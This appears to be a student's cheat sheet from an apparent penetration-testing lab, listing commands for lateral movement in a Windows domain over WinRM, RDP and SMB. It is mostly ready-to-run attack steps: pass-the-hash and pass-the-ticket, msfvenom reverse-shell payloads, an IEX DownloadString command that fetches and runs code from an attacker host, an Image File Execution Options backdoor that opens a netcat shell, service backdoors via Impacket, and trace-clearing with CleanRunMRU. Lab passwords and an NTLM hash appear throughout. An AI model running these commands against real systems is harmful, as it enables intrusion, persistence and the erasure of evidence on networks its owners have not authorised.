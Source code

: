 ## **Kerberos "Double Hop" Problem**
#### **Workaround #1: PSCredential Object**
1. Try to execute a command: `*Evil-WinRM* PS C:\Users\backupadm\Documents> import-module .\PowerView.ps1`
2. Check with klist: `*Evil-WinRM* PS C:\Users\backupadm\Documents> klist`
3. Set up a PSCredential object and try again to execute a command: 
    1. `*Evil-WinRM* PS C:\Users\backupadm\Documents> $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force`
    2. `$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)`
    3. `*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname`
#### **Workaround #2: Register PSSession Configuration**
1. Establishing a WinRM session on the remote host: `Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm`
2. Check tickets with klist: `klist`
3. One trick we can use here is registering a new session configuration using the Register-PSSessionConfiguration cmdlet: `Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm`
4. Restart the WinRM service by typing `Restart-Service WinRM` in current PSSession.
5. Check again with `klist` and the double hop problem has been eliminated.
## **RDP**
1. RDP Enumeration: `netexec rdp 10.129.229.0/24 -u helen -p 'RedRiot88' -d inlanefreight.local`
2. Optimizing xfreerdp for Low Latency Networks or Proxy Connections: `xfreerdp /u:Helen /p:'RedRiot88' /d:inlanefreight.local /v:10.129.229.244 /dynamic-resolution /drive:.,linux /bpp:8 /compression -themes -wallpaper /clipboard /audio-mode:0 /auto-reconnect -glyph-cache`
3. Confirm if Restricted Admin Mode is enabled: `reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin`
4. o enable Restricted Admin Mode, we would set the DisableRestrictedAdmin value to 0: `reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD`
5. To perform Pass the Hash from a Linux machine, we can use xfreerdp with the /pth option to use a hash and connect to RDP: `proxychains4 -q xfreerdp /u:helen /pth:62EBA30320E250ECA185AA1327E78AEB /d:inlanefreight.local /v:172.20.0.52`
6. For Pass the Ticket we can use Rubeus:
    1. `.\Rubeus.exe createnetonly /program:powershell.exe /show`
    2. `.\Rubeus.exe asktgt /user:helen /rc4:62EBA30320E250ECA185AA1327E78AEB /domain:inlanefreight.local /ptt`
    3. From the window where we imported the ticket, we can use the mstsc /restrictedAdmin command: `mstsc.exe /restrictedAdmin`
#### **SharpRDP**
1. Execute Metasploit to listen on port 8888: `msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_https; set LHOST 10.10.14.207; set LPORT 8888; set EXITONSESSION false; set EXITFUNC thread; run -j"`
2. Generate a payload with msfvenom using PowerShell Reflection: `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.207 LPORT=8888 -f psh-reflection -o s`
3. Use python http server to host our payload: `sudo python3 -m http.server 80`
4. Now we can use SharpRDP to execute a powershell command to execute our payload and provide a session: `.\SharpRDP.exe computername=srv01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.207/s')" username=inlanefreight\helen password=RedRiot88`
5. Use [CleanRunMRU](https://github.com/0xthirteen/CleanRunMRU) to clean all command records:
    1. Get the tool: `wget -Uri http://10.10.14.207/CleanRunMRU/CleanRunMRU/Program.cs -OutFile CleanRunMRU.cs`
    2. Use csc.exe to compile it: `C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe .\CleanRunMRU.cs`
    3. Use CleanRunMRU.exe to clear all commands: `.\CleanRunMRU.exe  clearall`
## **Server Message Block (SMB)**
1. SMB Enumeration: `proxychains4 -q nmap 172.20.0.52 -sV -sC -p139,445 -Pn`
2. Use PsExec to connect to a remote host and execute commands interactivelly: `.\PsExec.exe \\SRV02 -i -u INLANEFREIGHT\helen -p RedRiot88 cmd`
3. To execute our payload as NT AUTHORITY\SYSTEM, we need to specify the option -s which means that it will run with SYSTEM privileges: `.\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd`
4. Perform lateral movement with SharpNoPSExec:
    1. Start listening with Netcat: `nc -lnvp 8080`
    2. Generate the reverse shell payload using https://www.revshells.com or our fother C2.
    3. Run SharpNoPSExec`.\SharpNoPSExec.exe --target=172.20.0.52 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ...SNIP...AbwBzAGUAKAApAA=="`
5. Nimexec works simillary to SharpNoPSExec:
    1. Start listening with Netcat: `nc -lnvp 8080`
    2. Generate the reverse shell payload using revshells.com, and to convert the plain text password to NTLM hash, we can use this recipe in CyberChef: `.\NimExec -u helen -d inlanefreight.local -p RedRiot88 -t 172.20.0.52 -c "cmd.exe /c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -v`
6. Reg.exe: 
    1. Set up an SMB server to host our payload: `sudo python3 smbserver.py share -smb2support /home/plaintext/nc.exe`
    2.  Execute our Netcat listener: `nc -lnvp 8080`
    3. Execute reg.exe to add a new registry key to Microsoft Edge (msedge.exe): `reg.exe add "\\srv02.inlanefreight.local\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe" /v Debugger /t reg_sz /d "cmd /c copy \\172.20.0.99\share\nc.exe && nc.exe -e \windows\system32\cmd.exe 172.20.0.99 8080"`
    4. Once Microsoft Edge is opened by any user in the domain, we will instantly get a reverse shell.
    5. It is important to keep in mind that to use SMB share folder without authentication we need to have the following registry key set to 1: `reg.exe query HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth`
    6.  If have an account with administrative rights, we can use the following command to allow insecure guest authentication: `reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f`
7. Use psexec.py to get remote code execution on a target host, administrator login credentials are required: `proxychains4 -q psexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52`
8. The smbexec.py method leverages the built-in Windows SMB functionality to run arbitrary commands on a remote system without uploading files, making it a quieter alternative: `proxychains4 -q smbexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52`
9. The services.py script in Impacket interacts with Windows services using the MSRPC interface: `proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 list`
    1. Use the Metasploit output option exe-service, which creates a service binary: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.207 LPORT=9001 -f exe-service -o rshell-9001s.exe`
    2. Execute the command to create a new service: `proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 create -name 'Service Backdoor' -display 'Service Backdoor' -path "\\\\10.10.14.207\\share\\rshell-9001.exe"`
    3. Ensure that the SMB server has the file that will be executed: `sudo smbserver.py share -smb2support ./`
    4. Run our Netcat listener: `nc -lnvp 8080`
    5. View the configuration of the custom command created using config -name <serviceName>: `proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 config -name 'Service Backdoor'`
    6. Cover up the traces and delete the service by typing delete -name <serviceName>: `proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 delete -name 'Service Backdoor'`
    7. Alternatively, we use services.py to modify existing services: 
        1. `proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 config -name Spooler`
        2. Modify the binary path to our payload and set the START_TYPE to AUTO START with the option -start_type 2: `proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 change -name Spooler -path "\\\\10.10.14.207\\share\\rshell-9001.exe" -start_type 2`
        3. Start the service and wait for our command execution: `proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name Spooler`
10. The atexec.py script utilizes the Windows Task Scheduler service, which is accessible through the atsvc SMB pipe:
    1. Start a Netcat listener: `nc -lnvp 8080`
    2. Pass the domain name, administrator user, password, and target IP address <domain>/<user>:<password>@<ip>, and lastly, we can pass our reverse shell payload to get executed. We can generate the reverse shell payload using revshells.com: `proxychains4 -q atexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 "powershell -e ...SNIP...AbwBzAGUAKAApAA=="`